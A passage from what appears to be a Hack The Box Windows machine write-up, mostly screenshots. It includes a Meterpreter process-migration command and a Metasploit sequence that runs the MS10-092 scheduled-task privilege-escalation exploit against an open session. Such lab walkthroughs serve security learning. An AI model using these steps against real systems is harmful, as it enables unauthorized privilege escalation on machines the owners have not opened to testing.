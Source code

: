 ![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/windows/10/38.jpg)

- migrate to service

```sh
migrate 1120
```

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/windows/10/39.jpg)

- re run exploit suggester it gave different exploits

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/windows/10/40.jpg)

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/windows/10/41.jpg)

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/windows/10/42.jpg)

```sh
use exploit/windows/local/ms10_092_schelevator
show options
set session 1
run
```

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/windows/10/43.jpg)

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/windows/10/44.jpg)

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/windows/10/45.jpg)
